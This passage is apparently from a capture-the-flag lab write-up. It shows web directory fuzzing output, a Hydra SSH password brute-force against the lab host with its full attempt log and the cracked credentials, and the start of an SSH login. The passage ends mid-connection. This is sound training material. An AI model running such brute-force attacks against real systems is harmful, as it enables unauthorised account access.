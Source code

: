```
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 208ms]
                        [Status: 200, Size: 969, Words: 135, Lines: 31, Duration: 187ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 186ms]
:: Progress: [220546/220546] :: Job [1/1] :: 203 req/sec :: Duration: [0:18:28] :: Errors: 0 ::
                                                                                                    
```
There isn't anything else to enumerate on port 80 other than the images directory.
![http-10 10 74 157-images-](https://github.com/paRaade/CTF-Writeups/assets/126734769/e9b8a85d-c7bd-4fc8-a98f-cb1d828ad185)

------


**SSH (Port 22)**
```
hydra -l lin -P locks.txt ssh://10.10.74.157 -V                                 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-25 13:22:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.74.157:22/
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "ReDdr4g0nSynd!cat3" - 2 of 26 [child 1] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "Dr@gOn$yn9icat3" - 3 of 26 [child 2] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "R3DDr46ONSYndIC@Te" - 4 of 26 [child 3] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "ReddRA60N" - 5 of 26 [child 4] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "R3dDrag0nSynd1c4te" - 6 of 26 [child 5] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "dRa6oN5YNDiCATE" - 7 of 26 [child 6] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "ReDDR4g0n5ynDIc4te" - 8 of 26 [child 7] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "R3Dr4gOn2044" - 9 of 26 [child 8] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "RedDr4gonSynd1cat3" - 10 of 26 [child 9] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "R3dDRaG0Nsynd1c@T3" - 11 of 26 [child 10] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "Synd1c4teDr@g0n" - 12 of 26 [child 11] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "reddRAg0N" - 13 of 26 [child 12] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "REddRaG0N5yNdIc47e" - 14 of 26 [child 13] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "Dra6oN$yndIC@t3" - 15 of 26 [child 14] (0/0)
[ATTEMPT] target 10.10.74.157 - login "lin" - pass "4L1mi6H71StHeB357" - 16 of 26 [child 15] (0/0)
[22][ssh] host: 10.10.74.157   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-25 13:22:23


```
```
The valid ssh credentials are:
username: lin
password: RedDr4gonSynd1cat3
```
After establishing an SSH connection to the web server, I then checked the contents of the Desktop directory and read the user flag.
```
ssh lin@10.10.74.157         
The authenticity of host '10.10.74.157 (10.10.74.157)' can't be established.
```